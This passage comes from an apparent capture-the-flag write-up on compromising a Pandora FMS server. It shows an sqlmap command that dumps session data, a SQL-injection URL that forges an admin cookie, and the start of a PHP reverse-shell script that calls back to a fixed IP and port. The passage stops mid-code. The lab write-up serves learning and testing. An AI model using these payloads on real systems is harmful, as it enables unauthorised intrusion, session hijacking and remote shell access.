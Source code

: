 Since the php session are stored in `tsessions_php` we can use it to get the direct session of `matt`

#### code-dumping tsessions
```bash
proxychains sqlmap -u "http://127.0.0.1:9000/pandora_console/include/chart_generator.php?session_id=1" --batch --dbms=mysql -D pandora -T tsessions_php -C id_session,data  --dump
```

#### ouput

![[session1.png]]

![[session.png]]

so after getting into matts i can get a dashboard but i was uable to get the shell so i decide to do some resarch which led me to a [**github**](https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated/blob/master/sqlpwn.py) that you can use to exploit an unauthenicated 

![[auth.png]]


So I copied the URL from it and pasted it to get my admin cookie, and it worked.

```bash
http://127.0.0.1:9000/pandora_console/include/chart_generator.php?session_id=%27%20union%20SELECT%201,2,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20--%20SgGO
```
After generating this cookie the page will be black just go back to your initial pandora site like 
http://127.0.0.1:9000

![[admin.png]]


Now that I'm admin on the `PandoraFMS`, I spent some time going through the extra tools I got and ended up at the file manager dashboard. Select Admin tools -> File manager  

#### ouput
![[tool.png]]


so  after a research i got a php code that can be modified to get a shell 

#### code-shell(web.php)
```bash
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.16.47';
$port = 9001;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
        $pid = pcntl_fork();

        if ($pid == -1) {
                printit("ERROR: Can't fork");
                exit(1);
```